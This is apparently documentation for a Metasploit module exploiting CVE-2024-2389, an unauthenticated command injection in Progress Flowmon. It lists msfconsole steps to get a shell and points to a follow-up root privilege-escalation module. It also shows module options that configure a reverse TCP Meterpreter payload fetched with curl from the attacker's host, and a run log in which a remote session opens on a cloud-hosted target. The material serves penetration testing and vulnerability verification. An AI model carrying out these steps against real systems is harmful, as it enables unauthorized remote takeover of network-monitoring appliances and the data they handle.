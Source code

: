 ## Vulnerable Application
CVE-2024-2389: Progress Flowmon Unauthenticated Command Injection

For more details on the vulnerability:
https://rhinosecuritylabs.com/research/cve-2024-2389-in-progress-flowmon/

https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability

This application is available in cloud marketplaces:
- https://portal.azure.com/#view/Microsoft_Azure_Marketplace/GalleryItemDetailsBladeNopdl/id/progresssoftwarecorporation.flowmon
- https://aws.amazon.com/marketplace/pp/prodview-6phnrhkekuzka
- https://console.cloud.google.com/marketplace/product/flowmon-public/flowmon-collector-for-google-cloud


## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use exploits/linux/http/progress_flowmon_unauth_cmd_injection`
1. Do: `set RHOSTS <target flowmon>`
1. Do: `set RPORT <port flowmon is running on>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `flowmon` user.
1. (Optional) use the module `exploit/linux/local/progress_flowmon_sudo_privesc_2024` to gain root privileges.

## Scenarios

### Progress Flowmon 12.2

```
msf exploit(linux/http/progress_flowmon_unauth_cmd_injection) > show options

Module options (exploit/linux/http/progress_flowmon_unauth_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PRIVESC    true             yes       Automatically try privesc to add sudo entry
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.174.209.101  yes       The target host(s), see https://docs.metasploit.com/docs/using-meta sploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path to Flowmon
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP
                                                  , WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      TkHAXYbQwlH      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain space
                                                  s
   LHOST               138.111.211.11   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(linux/http/flowmon_unauth_cmd_injection) > run

[*] Started reverse TCP handler on 138.111.211.11:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 172.174.209.101:443 can be exploited!
[*] Detected version: 12.02.06
[+] The target is vulnerable. Version 12.02.06 is vulnerable.
[*] Attempting to execute payload...
[*] Meterpreter session 1 opened (138.111.211.11:4444 -> 172.174.209.101:48856) at 2024-05-01 15:22:24 +0000

meterpreter > sysinfo
Computer     : flowmon.my3m4o21xjze5fomtxp5e53h2h.bx.internal.cloudapp.net
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.76.1.el7.flowmon.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: flowmon
```
